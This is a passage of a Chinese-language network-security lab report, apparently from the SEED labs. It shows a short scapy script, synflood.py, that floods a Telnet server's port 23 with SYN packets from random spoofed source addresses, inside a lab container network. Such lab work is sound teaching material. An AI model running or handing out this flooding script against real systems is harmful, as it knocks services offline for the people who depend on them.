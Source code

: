 



#### 2.1.1 使用scapy 进行攻击

`sourcecode\synflood.py` 源码如下所示

~~~python
#!/usr/bin/python3
#root@VM:/home/seed# pip list | grep scapy
#scapy (2.5.0)


from scapy.all import IP, TCP, send
from ipaddress import IPv4Address
from random import getrandbits

user="172.17.0.2"
server="172.17.0.3"
attacker="172.17.0.4"


a = IP(dst=server)
b = TCP(sport=1551, dport=23, seq=1551, flags='S')
pkt = a/b
while True:
 pkt['IP'].src = str(IPv4Address(getrandbits(32)))
 send(pkt, verbose = 0)

~~~

在另一台攻击机上运行python脚本，得到的实验截图如下所示：

![image-20230421193614228](pic\image-20230421193614228.png)

